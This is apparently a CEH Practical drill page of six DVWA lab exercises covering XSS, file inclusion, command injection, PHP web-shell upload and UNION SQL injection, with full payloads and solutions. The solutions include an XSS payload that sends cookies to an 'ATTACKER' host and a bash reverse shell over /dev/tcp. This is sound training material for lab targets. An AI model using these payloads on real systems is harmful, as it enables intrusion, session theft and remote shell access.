

repository: morandeirachema/CyberCerts · page: certs/ceh/practical/drills/03-web-and-sqli/index.html · generator: mkdocs

# Drill Pack 03 — Web & SQL Injection

> Deep, Practical-style pack for **web app hacking + SQL injection**. Every challenge has a full solution (payloads, the DVWA cookie, expected output, exact answer, and a ⚡ faster route). Solve from the recipes in [`../challenge-playbooks.md`](../challenge-playbooks.md) with a timer running; expand the solution only when done or stuck. Theory lives in [Module 14 — Hacking Web Applications](../../modules/14-hacking-web-applications/README.md) and [Module 15 — SQL Injection](../../modules/15-sql-injection/README.md). **Lab targets only.**

> **Setup.** Docker web apps on localhost: **DVWA `:8081`**, **Juice Shop `:8082`**, **WebGoat `:8083`**, **bWAPP `:8084`**. Log into DVWA (`admin` / `password`), open **DVWA Security** and set the level each challenge asks for, then copy your `PHPSESSID` (Firefox DevTools → Storage → Cookies, or Burp). Everywhere below, replace `<sess>` with that value. The security cookie is sent alongside it, e.g. `--cookie="PHPSESSID=<sess>; security=low"`.

Score yourself **✅ under target / ⚠ over time / ❌ needed the solution**. Re-drill anything not ✅.

---

### Drill 1 — Reflected XSS, then beat the filter ⏱ 8 min
**Q:** On DVWA **Reflected XSS** (`/vulnerabilities/xss_r/`), pop an alert showing your session cookie at **security=low**, then land the same result at **security=medium** where `<script>` is stripped.

<details><summary>Solution</summary>

**Low** — the `name` param is echoed unescaped. In the input box (or the URL) enter `<script>alert(document.cookie)</script>` — URL form: `http://localhost:8081/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>`.

**You should see:** a JavaScript alert popping `PHPSESSID=<sess>; security=low` — proof the payload runs in your browser.

**Medium** — the filter does a **case-sensitive, non-recursive** `str_replace('<script>','',...)`, so avoid a literal lowercase `<script>`: `<img src=x onerror=alert(document.cookie)>` (or `<sCRipt>...</sCRipt>`).

**Exact answer / proof:** the alert box fires and displays your cookie string. On **high** the filter is tighter (`<sc*ript` regex) — use the same event-handler payload `<img src=x onerror=...>`; on **impossible** output is encoded and it dies.

⚡ **Faster:** skip the alert and prove it steals cookies with `<img src=x onerror="new Image().src='http://ATTACKER/?c='+document.cookie">` — but for a Practical the alert popping is enough evidence.
</details>

### Drill 2 — Stored XSS that fires for every viewer ⏱ 8 min
**Q:** On DVWA **Stored XSS** (`/vulnerabilities/xss_s/`, low), plant a persistent payload in the guestbook and prove it executes for a *different* browser session.

<details><summary>Solution</summary>

The `Name` field is limited to 10 chars (client-side `maxlength` only), so put the payload in **Message**: `<script>alert('stored-'+document.cookie)</script>`, then submit the guestbook entry.

**You should see:** the alert fire immediately after posting. Now open the page in a **second browser / private window** (or just reload) — it fires again *without* re-submitting. That is the difference from reflected: the payload is saved server-side and runs for **every** viewer.

**Exact answer / proof:** the alert pops on a fresh session that never sent the payload → persistent (stored) XSS confirmed.

⚡ **Faster:** if `maxlength` blocks a longer Message too, remove the attribute in DevTools or intercept the POST in Burp and enlarge `mtxMessage` before forwarding.
</details>

### Drill 3 — LFI: read /etc/passwd, name www-data's shell ⏱ 8 min
**Q:** Use DVWA **File Inclusion** (`/vulnerabilities/fi/`, low) to read `/etc/passwd`. What shell is set for the `www-data` user?

<details><summary>Solution</summary>
```bash
curl -s --cookie "PHPSESSID=<sess>; security=low" \
  "http://localhost:8081/vulnerabilities/fi/?page=/etc/passwd"
# traversal form also works: ?page=../../../../../../etc/passwd
```
**You should see:** the full `/etc/passwd` dumped into the page, including a line like
`www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`.

**Exact answer:** `www-data`'s shell = **`/usr/sbin/nologin`** (the last colon-field of its line; some images show `/bin/bash` — read *your* output).

Difficulty ladder: **medium** strips `../` and `http://` → an **absolute** path `?page=/etc/passwd` still slips through. **High** requires the name to start with `file` (`fnmatch('file*')`) → use `?page=file:///etc/passwd`.

⚡ **Faster:** in Burp Repeater, tamper the `page` value and resend — one click per attempt beats retyping curl.
</details>

### Drill 4 — Command injection to read a file ⏱ 8 min
**Q:** On DVWA **Command Injection** (`/vulnerabilities/exec/`, low), read `/etc/passwd` through the `ip` field. Then repeat at **medium** where `;` and `&&` are blacklisted.

<details><summary>Solution</summary>

**Low** — the `ip` value is passed straight to `ping` via the shell. In the box enter `127.0.0.1; cat /etc/passwd`, or by curl:
```bash
curl -s --cookie "PHPSESSID=<sess>; security=low" \
  --data-urlencode "ip=127.0.0.1; cat /etc/passwd" \
  --data "Submit=Submit" \
  "http://localhost:8081/vulnerabilities/exec/"
```
**You should see:** the ping output followed by the contents of `/etc/passwd`.

**Medium** — `;` and `&&` are removed, but the **pipe** survives: `127.0.0.1 | cat /etc/passwd`. **High** removes more separators but misses a pipe with no trailing space: `127.0.0.1|cat /etc/passwd`.

**Exact answer:** the file contents (root line `root:x:0:0:root:/root:/bin/bash`) rendered in the response.

⚡ **Faster / automate:** `commix --url="http://localhost:8081/vulnerabilities/exec/" --data="ip=127.0.0.1&Submit=Submit" --cookie="PHPSESSID=<sess>; security=low"` → drops you a pseudo-shell; type `cat /etc/passwd`.
</details>

### Drill 5 — Upload a web shell and run `id` ⏱ 10 min
**Q:** On DVWA **File Upload** (`/vulnerabilities/upload/`, low), upload a PHP web shell, then execute `id` through it. What is the output?

<details><summary>Solution</summary>
```bash
printf '<?php system($_GET["c"]); ?>' > shell.php
```
Upload `shell.php` via the page. DVWA reports the path (uploads land in `hackable/uploads/`). Trigger it:
```bash
curl -s --cookie "PHPSESSID=<sess>; security=low" \
  "http://localhost:8081/hackable/uploads/shell.php?c=id"
```
**You should see:** the command output for the web-server user.

**Exact answer:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Difficulty ladder: **medium** checks the MIME type — intercept the upload in Burp and set `Content-Type: image/jpeg` (keep the `.php` name). **High** checks the extension via `getimagesize()` + `strrpos` — upload `shell.php.jpg` (or a real JPEG with PHP appended) and pull it in through the **File Inclusion** LFI page instead.

⚡ **Faster:** upgrade to a shell — `curl ".../shell.php?c=bash -c 'bash -i >%26 /dev/tcp/ATTACKER/4444 0>%261'"` with a `nc -lvnp 4444` listener.
</details>

### Drill 6 — Manual UNION SQLi: extract admin's hash ⏱ 12 min
**Q:** On DVWA **SQL Injection** (`/vulnerabilities/sqli/`, low), extract the `admin` account's password **hash** by hand with UNION, then crack it. What is admin's password?

<details><summary>Solution</summary>

Work the manual ladder in the `User ID` box (Module 15 workflow):
```sql
1'                              -- error → injectable
1' ORDER BY 2 -- -              -- works; ORDER BY 3 errors → 2 columns
1' UNION SELECT 1,2 -- -        -- both columns render
1' UNION SELECT user,password FROM users -- -
```
**You should see:** every user with its MD5 hash, including
`admin` → `5f4dcc3b5aa765d61d8327deb882cf99`.

Crack it:
```bash
echo '5f4dcc3b5aa765d61d8327deb882cf99' > h.txt
hashcat -m 0 h.txt /usr/share/wordlists/rockyou.txt   # MD5
# or: john --format=raw-md5 h.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
**Exact answer:** admin's password = **`password`**.

⚡ **Faster:** that hash is famous — `5f4dcc3b5aa765d61d8327deb882cf99` is `password`; confirm instantly with `echo -n password | md5sum`, or paste it into any hash-lookup. curl one-liner for the dump: `curl -s --cookie "PHPSESSID=<sess>; security=low" "http://localhost:8081/vulnerabilities/sqli/?id=1'+UNION+SELECT+user,password+FROM+users+--+-&Submit=Submit"`.
</details>
